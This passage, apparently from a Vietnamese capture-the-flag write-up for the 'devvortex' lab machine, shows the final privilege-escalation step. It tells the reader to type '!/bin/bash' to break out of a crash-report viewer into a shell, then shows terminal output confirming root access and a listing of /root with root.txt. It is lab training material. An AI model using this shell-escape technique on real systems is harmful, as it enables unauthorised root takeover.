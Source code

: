 Nhập `!/bin/bash` để lấy shell từ process này

```python
................................ERROR: Cannot update /var/crash/_usr_bin_sleep.1000.crash: [Errno 13] Permission denied: '/var/crash/_usr_bin_sleep.1000.crash'
...........................
root@devvortex:/var/crash#
root@devvortex:/var/crash# id
uid=0(root) gid=0(root) groups=0(root)
root@devvortex:/var/crash# ls -la /root
total 40
drwx------  6 root root 4096 Mar 17 09:43 .
drwxr-xr-x 19 root root 4096 Oct 26 15:12 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Feb 26 14:30 .cache
drwxr-xr-x  3 root root 4096 Oct 29 16:21 .cleanup
-rw-------  1 root root   38 Mar 17 09:43 .lesshst
drwxr-xr-x  3 root root 4096 Feb 26 14:30 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Mar 17 06:39 root.txt
drwx------  2 root root 4096 Oct 26 15:12 .ssh
root@devvortex:/var/crash# 
```

